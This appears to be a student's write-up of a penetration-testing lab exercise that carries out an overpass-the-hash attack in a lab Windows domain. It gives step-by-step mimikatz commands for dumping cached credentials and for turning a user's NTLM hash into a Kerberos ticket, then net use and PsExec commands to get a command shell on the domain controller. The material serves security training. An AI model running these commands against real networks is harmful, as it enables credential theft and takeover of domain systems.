





### 21.4.2.1 Exercise
#### 1. Execute the overpass the hash attack above and gain an interactive command prompt on the domain controller. Make sure to reboot the Windows 10 client before starting the exercise to clear any cached Kerberos tickets.

We can take a privileged user's NTLM hash, use it to generate a Kerberos TGT, then use that ticket to gain remote access to another server.  

1. Began with the compromised Windows machine, then used mimikatz to view cached credentials

   - In the lab, we simulated this opening Notepad, right click the task bar icon, then SHIFT+RIGHT click the notepad icon on the menu and choosing 'run as different user'

   ```powershell
   privilege::debug 
   sekurlsa::logonpasswords
   ```

   

2. Used mimikatz to convert the NTLM hash into a Kerberos ticket

   ```powershell
   sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
   ```

   
   This opened a Powershell command as the specified user.

3. In the new Powershell window, I verified there were no tickets already for jeff_admin:
   

4. I accessed a network share on DC01 to generate a ticket & viewed the tickets:

   ```powershell
   net use \\dc01
   ```

   

5. Used PSExec.exe to obtain code execution on DC01

   ```powershell
   .\psexec \\dc01 cmd.exe
   ```

   

